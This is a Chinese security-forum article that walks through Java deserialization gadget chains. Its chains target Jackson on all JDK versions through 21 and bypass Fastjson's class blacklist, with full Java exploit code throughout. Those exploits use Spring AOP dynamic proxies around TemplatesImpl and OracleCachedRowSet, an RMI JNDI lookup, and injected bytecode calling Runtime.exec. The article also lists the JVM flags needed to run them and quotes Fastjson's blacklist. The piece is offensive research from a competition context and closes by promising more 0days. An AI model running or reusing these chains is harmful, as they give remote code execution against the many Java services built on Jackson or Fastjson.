


# Java反序列化通杀之 Jackson JDK全版本通杀 + Fastjson全版本通杀链-先知社区

> **来源**: https://xz.aliyun.com/news/18701  
> **文章ID**: 18701

---

# Java反序列化通杀之 Jackson JDK全版本通杀 + Fastjson全版本通杀链

在软件系统安全赛初赛时，我曾经发过类似的使用spring aop去bypass掉高版本Jackson限制的文章，然而由于当时时间比较忙，没有去详细分析。正巧最近这类问题比较火，咱也来再分析一波。

<https://ez-lbz.github.io/2025/04/23/ccsssc-chu-sai/index/>

### 软件系统安全赛初赛 EXP

我们先来看一下当时使用的OracleCachedRowSet+Jackson链的EXP：

```
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;
import oracle.jdbc.rowset.OracleCachedRowSet;
import javax.sql.RowSetInternal;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class OracleCachedRowSetChain {
    public static void main(String[] args) throws Exception {
        UnsafeUtil.patchModule(OracleCachedRowSetChain.class);
        UnsafeUtil.patchModule(ProxyUtil.class);
        UnsafeUtil.patchModule(SerializeUtil.class);
        UnsafeUtil.patchModule(UnsafeUtil.class);
        UnsafeUtil.patchModule(ReflectUtil.class);

        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();

        oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1097/remoteobj");

        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        Proxy proxy = (Proxy) ProxyUtil.getBProxy(oracleCachedRowSet, new Class[]{RowSetInternal.class});

        POJONode pojoNode = new POJONode(proxy);

        EventListenerList exp = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnsafeUtil.getFieldValue(manager, "edits");
        vector.add(pojoNode);
        UnsafeUtil.setFieldValue(exp, "listenerList", new Object[] { InternalError.class, manager });

        byte[] bytes = SerializeUtil.serialize(exp);
        SerializeUtil.deserialize(bytes);

    }
}
```

其中的灵魂就在于这句：

```
Proxy proxy = (Proxy) ProxyUtil.getBProxy(oracleCachedRowSet, new Class[]{RowSetInternal.class});
```

贴一下我的`ProxyUtil`：

```
package org.example;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

public class ProxyUtil {
    public static Object getBProxy(Object obj, Class[] clazzs) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor<?> constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(new Class[] { AdvisedSupport.class });
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)constructor.newInstance(new Object[] { advisedSupport });
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }

    public static Object getAProxy(Object obj, Class<?> clazz) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice)obj;
        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice)getBProxy(advice, new Class[] { MethodInterceptor.class, Advice.class }));
        advisedSupport.addAdvisor((Advisor)advisor);
        Constructor<?> constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(new Class[] { AdvisedSupport.class });
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)constructor.newInstance(new Object[] { advisedSupport });
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[] { clazz }, handler);
        return proxy;
    }
}
```

其中的逻辑不是很难理解，`getBProxy`是创建一个实现了某接口的代理对象，当该代理对象的某个方法被调用的时候，会被`org.springframework.aop.framework.JdkDynamicAopProxy`所拦截，从而调用真实对象的相应方法；`getAProxy`则是在创建代理对象的同时为他实现了某个接口（在这里虽然没有用到`getAProxy`，但是在软件系统安全赛复赛用到了）。

为什么这里使用了`AopProxy`，因为`AopProxy`可以提高`Jackson`链的稳定性，稳定触发`getter`方法，参考：<https://research.qianxin.com/archives/2414>

### Fastjson通杀链

在fastjson2.0.27中作者引入了黑名单，对反序列化进行防御：

```
static boolean ignore(Class objectClass) {
        if (objectClass == null) {
            return true;
        } else {
            switch (objectClass.getName()) {
                case "javassist.CtNewClass":
                case "javassist.CtNewNestedClass":
                case "javassist.CtClass":
                case "javassist.CtConstructor":
                case "javassist.CtMethod":
                case "org.apache.ibatis.javassist.CtNewClass":
                case "org.apache.ibatis.javassist.CtClass":
                case "org.apache.ibatis.javassist.CtConstructor":
                case "org.apache.ibatis.javassist.CtMethod":
                case "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet":
                case "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl":
                case "com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl":
                case "org.apache.wicket.util.io.DeferredFileOutputStream":
                case "org.apache.xalan.xsltc.trax.TemplatesImpl":
                case "org.apache.xalan.xsltc.runtime.AbstractTranslet":
                case "org.apache.xalan.xsltc.trax.TransformerFactoryImpl":
                case "org.apache.commons.collections.functors.ChainedTransformer":
                    return true;
                default:
                    return false;
            }
        }
    }
```

后来又把黑名单换成了哈希，从而阻碍安全研究。他的这个黑名单非常弱，比如刚刚软件赛提到的`OracleCachedRowSet`他就防御不了，但是这里我们重点来研究`TemplatesImpl`的不出网利用。

注意到：虽然`TemplatesImpl`在黑名单中，但是`Templates`不在黑名单，因此可以给他套个代理来bypass：

```
package org.example;

import com.alibaba.fastjson2.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.lang.reflect.Proxy;
import java.util.ArrayList;

public class Main {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = TemplatesImplUtil.getTemplatesImpl();
        Proxy proxy = (Proxy) ProxyUtil.getBProxy(templates, new Class[]{Templates.class});
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(proxy);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        ReflectUtil.setFieldValue(badAttributeValueExpException, "val", jsonArray);
        ArrayList list = new ArrayList();
        list.add(proxy);
        list.add(badAttributeValueExpException);
        SerializeUtil.test(list);
    }
}
```

### Jackson 高版本通杀链

测试环境JDK21，这也是通常生产环境中能遇到的最高版本。

从JDK17开始，由于Java模块化的引入，`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`很不幸的没有Exported给外部，因此不能够直接利用了。然而我们同样发现，`javax.xml.transform`被Exported给了外部，因此同样可以套一层动态代理来实现bypass：

```
package org.example;


import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class Main {
    public static void main(String[] args) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        TemplatesImpl templates = TemplatesImplUtil.getTemplatesImpl();
        Proxy proxy = (Proxy) ProxyUtil.getBProxy(templates, new Class[]{Templates.class});
        POJONode pojoNode = new POJONode(proxy);
        EventListenerList exp = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnsafeUtil.getFieldValue(manager, "edits");
        vector.add(pojoNode);
        UnsafeUtil.setFieldValue(exp, "listenerList", new Object[] { InternalError.class, manager });

        byte[] bytes = SerializeUtil.serialize(exp);
        SerializeUtil.deserialize(bytes);
    }
}
```

添加编译时参数：

```
--add-exports
java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED
--add-exports
java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED
```

添加运行时JVM参数：

```
--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED  
--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED  
--add-opens=java.desktop/javax.swing.undo=ALL-UNNAMED  
--add-opens=java.desktop/javax.swing.event=ALL-UNNAMED  
--add-opens=java.base/java.lang=ALL-UNNAMED
```



为什么这里使用`EventListenerList`而不是常用的`BadAttributeValueExpException`来触发链子？这个问题最早应该在2024年的羊城杯中被提到过了，`BadAttributeValueExpException`的`val`在高版本中被限制为了字符串类型，因此无法利用。

其中我们上面使用的`getTemplatesImpl`为实现了`AbstractTranslet`的版本。

```
public static TemplatesImpl getTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec("calc");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "RANDOM");
        setValue(templates, "_tfactory", null);
        return templates;
    }
```

然而在实际利用时，可能会发现本地通，远程不通的现象，可以考虑使用bypass掉`AbstractTranslet`的版本：

```
public static TemplatesImpl getBypassTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec("calc");");
        clazz.addConstructor(constructor);
        CtClass clazz1 = pool.makeClass("b");
        byte[][] bytes = new byte[][]{clazz.toBytecode(), clazz1.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "RANDOM");
        setValue(templates, "_tfactory", null);
        setValue(templates,"_transletIndex",0);
        return templates;
    }
```

此事在Java-chains中也有提及：



> 1.参数 classCount 数量大于1，即生成类的数量大于1   
> 2.参数 \_transletIndex 大于等于0，该属性为指定为恶意类的索引，默认为-1

只需满足这两个条件即可。

### 总结

目前来看，基本国内外所有的Java项目都是基于Jackson和Fastjson的（极少数基于Gson），因此这两条链无疑极大的拓展了Java反序列化的攻击面，将会带来更多的0day漏洞。
